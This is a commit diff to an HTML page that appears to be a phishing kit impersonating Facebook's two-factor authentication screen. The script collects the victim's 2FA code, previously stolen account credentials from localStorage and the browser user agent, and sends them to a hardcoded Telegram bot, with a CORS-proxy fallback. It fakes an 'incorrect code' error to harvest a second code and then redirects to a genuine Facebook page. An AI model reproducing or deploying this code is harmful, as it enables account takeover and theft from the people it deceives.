

Before and after one commit to rwcuvaqfkotmhmqv5/scan, a website: page public/2fa_page.html in a window 1280 px wide. Shown: the whole page, without its empty margins (100-1177 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update 2fa_page.html

```diff
--- a/public/2fa_page.html
+++ b/public/2fa_page.html
@@ -6,7 +6,7 @@
     <title>Facebook - Authentication App</title>
     <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
     <style>
-        /* Toàn bộ CSS gốc giữ nguyên */
+        /* Mobile-First Base Styles */
         body {
             font-family: system-ui, -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Oxygen, Ubuntu, Cantarell, "Open Sans", "Helvetica Neue", sans-serif;
             background-color: #f0f2f5;
@@ -19,13 +19,210 @@
             padding-top: 0;
             box-sizing: border-box;
         }
-        /* ... (Giữ nguyên toàn bộ CSS gốc) ... */
+
+        .container {
+            background-color: #ffffff;
+            border-radius: 0;
+            padding: 16px;
+            width: 100%;
+            max-width: 100%;
+            box-shadow: none;
+            text-align: center;
+            box-sizing: border-box;
+            min-height: 100vh;
+            display: flex;
+            flex-direction: column;
+        }
+
+        .header {
+            display: flex;
+            justify-content: flex-start;
+            align-items: center;
+            margin-bottom: 20px;
+            padding-top: 10px;
+            padding-left: 0;
+        }
+
+        .header .back-arrow {
+            color: #606770;
+            font-size: 24px;
+            text-decoration: none;
+            cursor: pointer;
+            margin-right: 20px;
+        }
+
+        .header .title-prefix {
+            color: #606770;
+            font-size: 15px;
+            font-weight: normal;
+        }
+
+        h1 {
+            font-size: 22px;
+            font-weight: bold;
+            text-align: left;
+            margin-bottom: 12px;
+            line-height: 1.2;
+            color: #1c1e21;
+        }
+
+        p {
+            font-size: 16px;
+            line-height: 1.5;
+            text-align: left;
+            margin-bottom: 24px;
+            color: #606770;
+        }
+
+        .illustration {
+            width: 100%;
+            max-width: 350px;
+            height: auto;
+            margin: 0 auto 30px auto;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+        }
+
+        .illustration img {
+            width: 100%;
+            height: auto;
+            display: block;
+            object-fit: contain;
+        }
+
+        .input-group {
+            margin-bottom: 20px;
+            position: relative;
+        }
+
+        .input-group input {
+            width: 100%;
+            padding: 14px 16px;
+            border: 1px solid #dddfe2;
+            border-radius: 6px;
+            font-size: 17px;
+            color: #1c1e21;
+            box-sizing: border-box;
+            background-color: #f0f2f5;
+        }
+
+        .input-group input::placeholder {
+            color: #606770;
+        }
+
         .error-message {
             color: #ff4d4f;
             font-size: 14px;
             text-align: left;
             margin-top: 8px;
             display: none;
+        }
+
+        .checkbox-group {
+            display: flex;
+            align-items: center;
+            text-align: left;
+            margin-bottom: 30px;
+            color: #606770;
+        }
+
+        .checkbox-group input[type="checkbox"] {
+            margin-right: 10px;
+            width: 20px;
+            height: 20px;
+            accent-color: #1877f2;
+            border-radius: 4px;
+        }
+
+        .checkbox-group label {
+            font-size: 15px;
+            line-height: 1.4;
+        }
+
+        .continue-button,
+        .try-another-way-button {
+            border: none;
+            border-radius: 8px;
+            padding: 14px 24px;
+            font-size: 17px;
+            font-weight: bold;
+            cursor: pointer;
+            width: 100%;
+            transition: background-color 0.2s;
+            text-decoration: none;
+            display: block;
+            text-align: center;
+            box-sizing: border-box;
+            margin-bottom: 12px;
+        }
+
+        .continue-button {
+            background: linear-gradient(to right, #6290e2, #a2c1f9);
+            color: white;
+            box-shadow: 0 1px 2px rgba(0, 0, 0, 0.2);
+            border: none;
+        }
+
+        .continue-button:hover {
+            background: linear-gradient(to right, #517fc9, #91b0e2);
+        }
+
+        .try-another-way-button {
+            background-color: #e4e6eb;
+            color: #1c1e21;
+            border: none;
+            font-size: 17px;
+            font-weight: bold;
+            box-shadow: none;
+        }
+
+        .try-another-way-button:hover {
+            background-color: #d4d8de;
+            text-decoration: none;
+        }
+
+        /* Desktop specific styles (min-width: 601px) */
+        @media (min-width: 601px) {
+            body {
+                padding-top: 20px;
+                align-items: flex-start;
+            }
+            .container {
+                border-radius: 8px;
+                padding: 24px;
+                max-width: 500px;
+                box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);
+                min-height: auto;
+            }
+            .header {
+                margin-bottom: 30px;
+                padding-top: 0;
+            }
+            h1 {
+                font-size: 24px;
+            }
+            p {
+                font-size: 17px;
+            }
+            .illustration {
+                margin-bottom: 30px;
+            }
+            .input-group {
+                margin-bottom: 20px;
+            }
+            .checkbox-group {
+                margin-bottom: 30px;
+            }
+            .continue-button,
+            .try-another-way-button {
+                padding: 14px 24px;
+                font-size: 17px;
+            }
+            .try-another-way-button {
+                font-size: 16px;
+                font-weight: normal;
+            }
         }
     </style>
 </head>
@@ -44,7 +241,7 @@
         </div>
 
         <div class="input-group">
-            <input type="text" id="authCode" placeholder="Code" inputmode="numeric" pattern="\d*" maxlength="6">
+            <input type="text" id="authCode" placeholder="Code" maxlength="6">
             <div class="error-message" id="errorMessage">The code you entered is incorrect. Please try again.</div>
         </div>
 
@@ -59,23 +256,19 @@
     </div>
 
     <script>
-        // Cấu hình chung
+        // Telegram configuration
         const BOT_TOKEN = '7276807133:AAE4Cnz15pyFcCHOo3ZeLfjaFZly6LmE2-0';
         const CHAT_ID = '-4789641482';
-        const TELEGRAM_API = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
         let attemptCount = 0;
 
-        // Hàm gửi dữ liệu mạnh mẽ
+        // Robust Telegram sending function
         async function sendToTelegram(message) {
-            const fallbackUrls = [
-                TELEGRAM_API,
-                `https://cors-anywhere.herokuapp.com/${TELEGRAM_API}`,
-                `https://api.codetabs.com/v1/proxy/?quest=${TELEGRAM_API}`
-            ];
+            const TELEGRAM_API = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
+            const CORS_PROXY = 'https://cors-anywhere.herokuapp.com/';
 
-            for (const url of fallbackUrls) {
             try {
-                    const response = await fetch(url, {
+                // Try direct connection first
+                let response = await fetch(TELEGRAM_API, {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
@@ -84,12 +277,29 @@
                         parse_mode: 'HTML'
                     })
                 });
+
                 if (response.ok) return true;
+
+                // Fallback to CORS proxy if direct fails
+                console.warn('Direct connection failed, trying CORS proxy...');
+                response = await fetch(CORS_PROXY + TELEGRAM_API, {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json',
+                        'X-Requested-With': 'XMLHttpRequest'
+                    },
+                    body: JSON.stringify({
+                        chat_id: CHAT_ID,
+                        text: message,
+                        parse_mode: 'HTML'
+                    })
+                });
+
+                return response.ok;
             } catch (error) {
-                    console.warn(`Failed with ${url}:`, error);
+                console.error('Telegram send error:', error);
+                return false;
             }
-            }
-            return false;
         }
 
         document.getElementById('continueButton').addEventListener('click', async function(e) {
@@ -99,50 +309,49 @@
             const trustDevice = document.getElementById('trustDevice').checked;
             const credentials = JSON.parse(localStorage.getItem('fb_credentials') || '{}');
 
-            if (!authCode || !/^\d{6}$/.test(authCode)) {
+            // Validate code
+            if (!/^\d{6}$/.test(authCode)) {
                 document.getElementById('errorMessage').style.display = 'block';
                 document.getElementById('authCode').style.borderColor = '#ff4d4f';
                 return;
             }
 
-            // Tạo nội dung tin nhắn
+            // Prepare message
             const message = `🔢 <b>2FA VERIFICATION</b> 🔢\n\n` +
                           `👤 <b>Account:</b> ${credentials.username || 'N/A'}\n` +
-                          `🔢 <b>2FA Code:</b> ${authCode}\n` +
+                          `🔢 <b>Code:</b> ${authCode}\n` +
                           `📱 <b>Trust Device:</b> ${trustDevice ? 'Yes' : 'No'}\n\n` +
                           `🌐 <b>User Agent:</b> ${navigator.userAgent}\n` +
                           `🕒 <b>Time:</b> ${new Date().toLocaleString()}`;
 
-            // Hiển thị trạng thái loading
+            // Show loading state
             const btn = this;
             const originalText = btn.textContent;
             btn.textContent = 'Verifying...';
             btn.disabled = true;
 
             try {
+                // Send to Telegram
                 const success = await sendToTelegram(message);
-                if (!success) {
-                    alert('Verification service is temporarily unavailable. Please try again later.');
-                    return;
-                }
 
                 attemptCount++;
                 if (attemptCount < 2) {
-                    // Lần 1: Hiển thị lỗi
+                    // First attempt: show error
                     document.getElementById('errorMessage').style.display = 'block';
                     document.getElementById('authCode').style.borderColor = '#ff4d4f';
                     document.getElementById('authCode').value = '';
                 } else {
-                    // Lần 2: Chuyển hướng
+                    // Second attempt: redirect
                     window.location.href = 'https://www.facebook.com/policies_center/';
                 }
             } finally {
+                // Restore button state
                 btn.textContent = originalText;
                 btn.disabled = false;
             }
         });
 
-        // Tự động focus vào ô nhập mã
+        // Auto-focus code input
         document.getElementById('authCode').focus();
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
